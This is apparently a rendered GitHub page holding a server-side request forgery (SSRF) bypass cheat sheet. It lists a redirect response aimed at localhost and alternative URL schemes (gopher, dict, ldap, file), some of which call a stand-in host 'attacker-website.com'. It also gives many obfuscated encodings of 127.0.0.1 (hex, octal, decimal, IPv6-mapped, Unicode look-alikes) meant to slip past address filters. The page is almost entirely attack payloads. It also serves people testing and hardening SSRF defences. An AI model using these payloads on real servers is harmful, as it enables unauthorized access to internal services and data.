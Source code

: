 ## Add location field in response header from server request.

```
HTTP/1.1 301 Moved Permanently
Server: nginx
Connection: close
Content-Length: 0
Location: http://127.0.0.1
```
## Use different URL scheme

```
file://path/to/file
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
dict://127.0.0.1:1337/stats
ftp://127.0.0.1/
sftp://attacker-website.com:1337/
tftp://attacker-website.com:1337/TESTUDPPACKET
ldap://127.0.0.1:389/%0astats%0aquit
ldaps://127.0.0.1:389/%0astats%0aquit
ldapi://127.0.0.1:389/%0astats%0aquit
gopher://attacker-website.com/_SSRF%0ATest!
```


## Use different IP address format

Dotted hexadecimal IP

```
0x7f.0x0.0x0.0x1
```
Dotless hexadecimal IP

```
0x7f001
```

Dotless hexadecimal IP with padding (padding is 0a0b0c0d)

```
0x0a0b0c0d7f000001
```

Dotless decimal IP 

```
2130706433
```


Dotted decimal IP with overflow (256)

```
383.256.256.257
```

Dotted octal IP

```
0177.0.0.01
```


Dotless octal IP

```
017700000001
```

Dotted octal IP with padding

```
00177.000.0000.000001
```


## Short-hand IP address

```
0.0.0.0 => 0
127.0.0.1 => 127.1
127.0.0.1 => 127.0.1
```


## IPv4 address mapping

```
[::ffff:7f00:1]
[::ffff:127.0.0.1]
[::127.0.0.1]
[::ffff:7f00:1%25]
[::ffff:127.0.0.1%eth0]
```


## Enclosed alphanumerics

```
127。0。0。1
127｡0｡0｡1
127．0．0．1
⑫７｡⓪．𝟢。𝟷
𝟘𝖃𝟕𝒇｡𝟘𝔵𝟢｡𝟢𝙭⓪｡𝟘𝙓¹
⁰𝔁𝟳𝙛𝟢０１
２𝟏𝟑𝟢𝟕𝟢６𝟺𝟛𝟑
𝟥𝟪³。𝟚⁵𝟞。²₅𝟞。²𝟧𝟟
𝟢₁𝟳₇｡０｡０｡𝟢𝟷
𝟎𝟢𝟙⑦⁷。０００。𝟶𝟬𝟢𝟘。𝟎₀𝟎𝟢０𝟣
[::𝟏②₇．𝟘．₀．𝟷]
[::𝟭２𝟟｡⓪｡₀｡𝟣%𝟸𝟭⑤]
[::𝚏𝕱ᶠ𝕗:𝟏₂７｡₀｡𝟢｡①]
[::𝒇ℱ𝔣𝐹:𝟣𝟤７。₀。０。₁%②¹𝟧]
𝟎𝚇𝟕𝖋｡⓪｡𝟣
𝟎ˣ𝟩𝘍｡𝟷
𝟘𝟘①𝟕⑦．１
⓪𝟘𝟙𝟳𝟽｡𝟎𝓧₀｡𝟏
```


